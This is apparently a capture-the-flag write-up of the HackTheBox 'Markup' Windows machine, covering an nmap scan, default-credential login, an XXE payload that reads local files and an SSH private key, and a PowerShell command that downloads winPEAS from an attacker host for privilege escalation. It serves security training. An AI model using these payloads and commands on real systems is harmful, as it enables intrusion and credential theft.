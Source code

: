 ```yaml
---
title: "HackTheBox - Markup"
author: Nasrallah
description: ""
date: 2022-07-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, burpsuite, xml, xxe]
img_path: /assets/img/hackthebox/machines/markup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Markup](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a website vulnerable to XXE, we exploit that and get an ssh private key. We connect to the target and run `winpeas` which finds an administrator's password.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.182.252
Host is up (0.10s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

There are 3 open port,22,80 and 433.

### Web

Let's navigate to the webserver on port 80.

![](1.png)

We got a login page, We can try submit some default credentials like the following:

```text
admin:admin
administrator:administrator
admin:administrator
admin:password
administrator:password
```

We managed to login with `admin:password`

![](2.png)

Going through the website's different pages, we find that we can interact with the website in the `order` page.

![](3.png)

### Burp

Let's fill the input fields and intercept the request using `burp suite` and send it to repeater.

![](4.png)

The website uses `XML` for the orders, let's check if this is vulnerable to XEE.

> XEE: or XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.


## **Foothold**

Since this is a windows machine, we can test the vulnerability with the following payload:

```xml
<?xml version = "1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///c:/windows/win.ini'>]>
    <order>
        <quantity>
            1
        </quantity>
        <item>
            &xxe;
        </item>
        <address>
            test
        </address>
    </order>
```

Let's edit the request in repeater and send it.

![](5.png)

Great! We can read the `win.ini` file, but what now.

Searching through all windows files can take a very long time, so let's search in the website for anything that might help us.

![](7.png)

Found username `daniel`, let's see if there is an ssh key inside his home directory. `C:\\Users\daniel\.ssh\id_rsa`

![](6.png)

Great! We found ssh private key of daniel, let's copy it to our machine, give it the right permissions and connect with it.

![](8.png)


## **Privilege Escalation**

Let's check ou current privileges on the machine with `whoami /priv`

![](9.png)

Nothing really useful.

I uploaded a copy of `winpeas.exe` to the target using the following command:

```shell
powershell -c wget http://{Attacker_IP}/winpeas.exe -o winpeas.exe
```

After running winpeas, it found Administrator's credentials

![](10.png)

We can use ssh to login as Administrator.

![](11.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
